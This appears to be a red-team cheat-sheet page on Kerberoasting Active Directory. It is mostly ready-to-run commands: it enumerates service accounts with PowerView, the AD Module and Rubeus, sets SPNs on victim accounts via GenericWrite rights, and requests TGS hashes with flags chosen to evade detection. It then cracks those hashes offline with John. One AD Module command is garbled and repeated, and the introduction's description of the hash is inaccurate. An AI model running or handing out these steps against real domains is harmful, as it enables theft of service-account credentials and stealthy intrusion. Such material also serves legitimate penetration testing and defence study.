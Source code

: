 # Kerberoast

In a Kerberoast attack, the attacker requests a Kerberos session ticket (TGS) to retrieve the service account's NTLM hash, which is partially encrypted with the service account's hash.\
This hash is then cracked offline to extract the service account's password.

## SPNs

### Find SPNs

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -SPN
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADUser -Filter {Servicer -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```
{% endtab %}

{% tab title="Rubeus.exe" %}
```
Rubeus.exe kerberoast /stats
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**If an account has SPN value set then TGS can be requested for that account.**
{% endhint %}

## Set SPNs

With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain)

{% hint style="warning" %}
**We can then request a TGS without special privileges. The TGS can then be "Kerberosated" instead of we resetting the password of the user with the GenericAll/GenericWrite rights.**
{% endhint %}

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Find Permissions - for example RDPUsers group
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Set SPN
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Set-ADUser -Identify <username> -ServicePrincipalNames @{Add='ops/whatever1'}
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
Remember the SPN name should be in the **form string/string** and it should be **UNIQUE across the FOREST**.
{% endhint %}

## TGS

```powershell
# try to downgrade to RC4-HMAC and get hashes
# Prone to detection as the same machine is requesting TGS's for all the services back to back
Rubeus.exe kerberoast

# to avoid detections look for Kerberoastable accounts that only support RC4_HMAC
Rubeus.exe kerberoast /rc4opsec

# Specific SPN - more stealth
Rubeus.exe kerberoast /user:svcadmin  /rc4opsec

# usefull flags
/outfile:hashes.txt # output the hashes into file
/simple # hashes are output in the console one per line
/nowrap # results will not be line wrapped
/stats # will output statistics about kerberoastable users found
```

## Crack

```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt
```
